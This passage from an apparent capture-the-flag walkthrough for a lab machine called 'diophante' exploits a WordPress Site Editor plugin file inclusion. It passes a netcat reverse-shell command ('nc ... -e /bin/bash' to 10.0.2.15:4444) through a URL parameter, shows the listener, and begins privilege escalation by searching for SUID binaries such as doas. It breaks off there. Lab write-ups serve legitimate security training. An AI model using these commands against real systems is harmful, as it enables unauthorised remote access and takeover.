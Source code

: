 ![image]( /assets/img/diophante/6.PNG)

## Reverse Shell

- Browser

```sh
view-source:http://hard/blog/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/mail/sabine&cmd=nc%20%2010.0.2.15%204444%20-e%20/bin/bash
```

- Listener
```sh
┌──(alienum㉿kali)-[~]
└─$ nc -lvp 4444
listening on [any] 4444 ...
```

![image]( /assets/img/diophante/7.PNG)

## Privileges Escalation | doas

- Find SUID Permissions

```sh
www-data@diophante:~$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
...
/usr/bin/doas
...
```

- Find the `doas.conf`
